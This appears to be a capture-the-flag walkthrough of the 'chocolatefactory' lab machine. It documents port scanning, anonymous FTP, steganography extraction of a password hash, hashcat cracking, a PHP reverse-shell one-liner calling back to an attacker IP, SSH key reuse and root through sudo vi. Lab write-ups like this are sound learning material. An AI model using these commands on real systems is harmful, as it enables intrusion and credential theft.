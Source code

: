 # chocolatefactory

<pre>
                            Reconnaissance 
</pre>

## Port Scanning 

> nmap 10.10.229.79

```
PORT STATE SERVICE
 21/tcp open ftp
 22/tcp open ssh
 80/tcp open http
 100/tcp open newacct
 106/tcp open pop3pw
 109/tcp open pop2
 110/tcp open pop3
 111/tcp open rpcbind
 113/tcp open ident 
 119/tcp open nntp
 125/tcp open locus-map

```


## ANONYMOUS FTP ALLOWED


<pre>
> ftp 10.10.229.79 Connected to 10.10.229.79. 220 (vsFTPd 3.0.3)
 Name (10.10.229.79:greedydev): anonymous
  331 Please specify the password. 
  Password: 230 Login successful. 
  Remote system type is UNIX. 
  Using binary mode to transfer files.
ftp> ls 229 Entering Extended Passive Mode (|||36646|) 150 Here comes the directory listing.
 -rw-rw-r-- 1 1000 1000 208838 Sep 30 2020 gum\_room.jpg 226 Directory send OK.
ftp> get gum\_room.jpg local: gum\_room.jpg remote: gum\_room.jpg 229 Entering Extended Passive Mode (|||43917|) 150 Opening BINARY mode data connection for gum\_room.jpg (208838 bytes). 100% |\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*| 203 KiB 89.24 KiB/s 00:00 ETA 226 Transfer complete. 208838 bytes received in 00:02 (83.03 KiB/s) 
ftp> \[1] + 94453 suspended ftp 10.10.229.79

</pre>


## Extrtacting Data from the image

> steghide extract -sf gum\_room.jpg Enter passphrase: 
- wrote extracted data to "b64.txt".

> cat b64.txt | base64 --d

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```


Here we get some useful information

1. User : Charlie
2. Password Hash : $6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/

The hashing used is SHA-512

Using hashcat :: hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt $6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:cn7824

##### Password : cn7824

Not working on SSH :But there was a login page on the website

#### Credentials for the website

There is a input box where we can execute command

**Getting a revese shell**

``` php -r '$sock=fsockopen("10.17.5.163",4444);exec("/bin/sh -i <&3 >&3 2>&3");' ```


Finding from the nmap scan 
<pre>
113/tcp open ident? | fingerprint-strings: | DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, LDAPSearchReq, LPDString, NULL, RTSPRequest, SMBProgNeg> |\_ http://localhost/key\_rev\_key <- You will find the key here!!!
</pre>
http://localhost/key\_rev\_key <- You will find the key here!!!

File Found :: -rw-r--r-- 1 charlie charley 8496 Sep 30 2020 key\_rev\_key

using strings command :: strings key\_rev\_key

This is the keyb'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

chaging directory to /home/charlie

www-data@chocolate-factory:/home/charlie$ ls -la ls -la total 40 drwxr-xr-x 5 charlie charley 4096 Oct 7 2020 . drwxr-xr-x 3 root root 4096 Oct 1 2020 .. -rw-r--r-- 1 charlie charley 3771 Apr 4 2018 .bashrc drwx------ 2 charlie charley 4096 Sep 1 2020 .cache drwx------ 3 charlie charley 4096 Sep 1 2020 .gnupg drwxrwxr-x 3 charlie charley 4096 Sep 29 2020 .local -rw-r--r-- 1 charlie charley 807 Apr 4 2018 .profile -rw-r--r-- 1 charlie charley 1675 Oct 6 2020 teleport -rw-r--r-- 1 charlie charley 407 Oct 6 2020 teleport.pub -rw-r----- 1 charlie charley 39 Oct 6 2020 user.txt

we got our first flag :: user.txt but we dont have any permission

we found ssh key for user: charlie

Saved the key in a file : id\_rsa

sudo ssh -i id\_rsa charlie@10.10.229.79

Logged in as Charlie

## Priv Escalation

On running sudo -l command we get this output

charlie@chocolate-factory:/opt$ sudo -l Matching Defaults entries for charlie on chocolate-factory: env\_reset, mail\_badpass, secure\_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User charlie may run the following commands on chocolate-factory: (ALL : !root) NOPASSWD: /usr/bin/vi charlie@chocolate-factory:/opt$

this entry allows the user to run the vi editor (located at /usr/bin/vi) as any user without password

For priv escaltion : Source GTFO Bin

```
sudo vi -c ':!/bin/sh' /dev/null
```

charlie@chocolate-factory:/opt$ sudo vi -c ':!/bin/sh' /dev/null

##### \# whoami
root

``we got the root access``

Naviaget to /root There is a root.py lets run this file It is asking for a key Remember we got a key earlier lets try that key

File found :: python root.py

Enter the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

flag{cec59161d338fef787fcb4e296b42124}

We got our root flag
